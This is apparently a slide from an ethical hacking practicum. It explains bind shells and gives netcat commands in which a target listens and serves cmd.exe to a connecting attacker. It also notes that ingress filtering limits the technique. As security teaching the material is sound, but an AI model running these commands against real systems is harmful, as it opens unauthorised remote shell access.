

# Bind shell
Target listens on a port and attacker connects to it

Doing this with netcat
Target: nc –l –p <port> -e cmd.exe
Attacker: nc <target IP> <port>
Target opens cmd.exe for attacker and passes session through netcat

Drawback: organizations may block incoming connections – ingress  rules are usually much stricter than egress
Real-world systems: ethical hacking practicum – UW Summer 2021